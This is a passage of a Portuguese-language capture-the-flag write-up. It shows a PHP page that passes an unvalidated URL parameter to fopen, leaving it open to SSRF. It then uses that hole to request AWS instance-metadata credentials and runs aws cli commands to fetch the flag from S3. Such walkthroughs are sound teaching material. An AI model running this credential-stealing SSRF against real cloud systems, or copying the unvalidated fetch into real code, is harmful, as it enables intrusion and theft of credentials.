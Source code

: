 Qualquer coisa enviada nesse query string retorna uma resposta 200 com cabeçalho de content-type `image/png`.
Tento então enviar o próprio nome da página como parâmetro `(code.php)` e uma "imagem" me é retornada.
Essa imagem é na verdade o código fonte da página, e com ele fica mais fácil entender o que podemos fazer aqui.


```php
<?php
/**
* Check if the 'url' GET variable is set
* Example - http://localhost/?url=http://site.com
*/
if (isset($_GET['url'])){
$url = $_GET['url'];

/**
* Send a request vulnerable to SSRF since
* no validation is being done on $url
* before sending the request
*/
$image = fopen($url, 'rb');

/**
* Send the correct response headers
*/
header("Content-Type: image/png");

/**
* Dump the contents of the image
*/
fpassthru($image);}
```

Sabendo que o desafio se trata de informações sobre a instância aws, tento então passar como parâmetro a url abaixo
http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance

E isso me retorna credenciais válidas para autenticação através do aws cli. Após isso basta utilizá-las para executar os comandos 

```shell
aws s3api list-buckets
aws s3 cp s3://flag-ctf/flag.txt ./
cat flag.txt
```
